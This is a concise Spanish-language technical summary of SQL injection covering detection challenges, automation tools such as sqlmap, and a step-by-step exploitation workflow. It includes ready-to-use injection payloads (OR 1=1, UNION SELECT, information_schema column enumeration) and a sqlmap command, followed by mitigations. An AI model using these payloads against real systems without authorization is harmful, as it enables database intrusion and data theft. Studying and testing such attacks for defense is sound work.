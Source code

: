 ### Resumen técnico (conciso)

**Problema**
SQLi persiste por construcciones SQL dinámicas, múltiples puntos de entrada (inputs, headers, URL) y fallas en uso correcto de consultas parametrizadas/ORM. Detectar y explotar puede requerir adaptación contextual y verificación manual.

**Retos clave**

* Consultas dinámicas y lógica compleja que ocultan vectores.
* Múltiples superficies: formularios, cabeceras (User-Agent), parámetros GET/POST.
* Falsos negativos por prepared statements/ORM; herramientas deben diferenciar.
* Blind/boolean/stacked/time-based requieren técnicas distintas y más tiempo.

**Herramientas prácticas (automación)**

* `sqlmap` — automatización general. Ejemplo:

  ```
  sqlmap -u "http://host/vuln.php?id=1" --headers="User-Agent:INJECT_HERE" --batch --dbs
  ```
* `sqlninja` — orientado a MS SQL Server (fingerprint y explotación).
* `jjtool` / `jSQL` — para entornos Java.
* `bbqsql` — blind SQLi automatizado (time/boolean).

**Flujo operativo para explotación automatizada**

1. Identificar puntos: fuzzing de parámetros, headers y rutas.
2. Confirmar inyección: `' OR '1'='1` / error messages / time delays.
3. Determinar tipo: error-based, boolean-based, time-based, stacked, UNION.
4. Contar/alinéar columnas: `ORDER BY n` / `UNION SELECT NULL,...`
5. Enumerar esquema: `information_schema.tables`, `information_schema.columns`.
6. Extraer datos con `CONCAT`, `CAST` y `GROUP_CONCAT` o mediante herramientas automáticas (`sqlmap`).
7. Si blind: usar técnicas de bit-by-bit o `bbqsql`.

**Comandos y payloads útiles**

* Confirmación básica:

  ```
  ' OR 1=1 -- -
  ```
* UNION (2 columnas):

  ```
  ' UNION SELECT NULL, column FROM table WHERE id=1 -- -
  ```
* Enumerar columnas:

  ```
  ' UNION SELECT NULL, GROUP_CONCAT(column_name SEPARATOR 0x3a) FROM information_schema.columns WHERE table_name='books' AND table_schema=DATABASE() -- -
  ```
* Forzar texto numérico:

  ```
  CAST(field AS CHAR)
  ```

**Mitigaciones esenciales**

* Consultas parametrizadas / prepared statements (no concatenar).
* Validación y normalización de entrada (whitelisting).
* Escapado específico por motor si no hay parametrización.
* Least privilege: cuentas DB con permisos mínimos.
* WAF + logging + alertas para patrones anómalos (UNION, sleep, comment markers).
* Tests automáticos en CI: integración de `sqlmap` o scanners en pipelines.

**Limitaciones y consideraciones**

* Herramientas automatizadas no sustituyen análisis manual; false positives/negatives.
* Extracción ciega es lenta; ajustar `time`/`threads` en `sqlmap`.
* Respeto legal: pruebas solo en entornos autorizados.
